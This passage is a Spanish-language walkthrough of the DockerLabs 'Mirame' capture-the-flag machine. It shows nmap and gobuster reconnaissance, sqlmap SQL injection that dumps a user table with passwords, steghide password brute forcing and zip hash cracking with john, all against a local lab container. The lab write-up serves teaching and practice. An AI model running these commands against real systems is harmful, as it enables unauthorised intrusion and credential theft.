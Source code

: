 ```yaml
---
title: Mirame - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | maciiii___        | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/3c6a11d0-98ea-449d-b124-dc7951cb6a84)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `22` (SSH)
- `80` (HTTP)

A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p 80,22 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/79604c88-03f7-4c33-acf2-5076e32869f5)

# Exploración Web

Al acceder a la página web, observamos una pagina de login.
![image](https://github.com/user-attachments/assets/01915018-0278-4a6a-8c54-8f9f615b7627)

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![image](https://github.com/user-attachments/assets/aabf1211-fc56-491c-bbc2-5dedb231eaa7)

Encontramos varias rutas las cuales , no encontramls nada interesante por ahora.

## Inyeccion Sql 

Lo que haremos sera probar en el login del principio con `sqlmap`.


Recogeremos la peticion y la guardaremos en un archivo `request.req` y poniendo `*` donde queremos que modifique los campos.

![image](https://github.com/user-attachments/assets/6992ffe9-6a37-463e-ad12-146eb37d40ed)

Vamos a porbar si es inyectable primero

```bash
sqlmap -r request.req -p searchitem --batch
```
![image](https://github.com/user-attachments/assets/a162743f-2200-44fe-a0f1-9c7fd467dc44)

Parece que si es inyectable ahora vamos a ver que base de datos contiene.

```bash
sqlmap -r request.req -p searchitem --batch --dbs
```
![image](https://github.com/user-attachments/assets/0af6ca88-b27f-4587-957f-587739457018)

Ahora vamos a ver que tablas tiene esa base de datos.
```bash
sqlmap -r request.req -p searchitem --batch -D users --tables
```
![image](https://github.com/user-attachments/assets/39913051-dd61-4764-a4b5-87f4e8323bb0)

Que contiene la tabla 
```bash
sqlmap -r request.req  -p searchitem --batch -D users -T usuarios --columns
```
![image](https://github.com/user-attachments/assets/84f30792-6479-41c4-ac21-aee62d06b678)

Usuarios y contraseñas
```bash
sqlmap -r request.req -p searchitem --batch -D users -T usuarios -C id,username,password --dump
```
![image](https://github.com/user-attachments/assets/9d96e32f-a072-44f1-a37f-dae4560dd959)

# Intrusion

Ya teniendo un listado vemos que hay uno llamado `directoriotravieso` y si es es un directorio , por lo que porbamos.

![image](https://github.com/user-attachments/assets/7e4c871d-7e97-4ee3-be7c-43eb56de402b)

Por lo que parecia , era buena mi suposicion , ahora lo que haremos sera descargar esa imagen y ver si contiene un mensaje oculto. 

```bash
steghide --extract -sf miramebien.jpg 
```

Nos pide una contraseña por lo que no podemos ver que contiene.

![image](https://github.com/user-attachments/assets/6c3dfe1d-e35a-4a9e-ab74-e60ff24a4f20)


### Fuerza bruta

Lo que haremos sera fuerza bruta para ver si la contraseña esta en `rockyou`.

```bash
stegcracker miramebien.jpg /usr/share/wordlists/rockyou.txt
```

![image](https://github.com/user-attachments/assets/c504e959-4d2b-400d-9789-089e8997c886)

La contraseña era `chocolate`.

Lo volvemos a  porobar a ver que contiene esa imagen de antes.

![image](https://github.com/user-attachments/assets/1025c5bb-f426-477e-b603-a69be1ccbfde)

Y nos ha descargado un ocultito.zip , vamos a descomprimirlo, parece que este también tiene un `password`.

![image](https://github.com/user-attachments/assets/5f28b73b-a61a-43f2-aaa9-bbcc6a49f6d0)

Para romper este archivo usaremos `zip2john` para extraer el `hash`, 
```bash
zip2john ocultito.zip > hash.txt
```
![image](https://github.com/user-attachments/assets/fe45cd36-a9e1-4c2d-a626-bb33c3bdd0f7)

Ahora usaremos `john` para obtener el `password` y siguiendo estos pasos 
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Observamos que el password es `stupid1`.
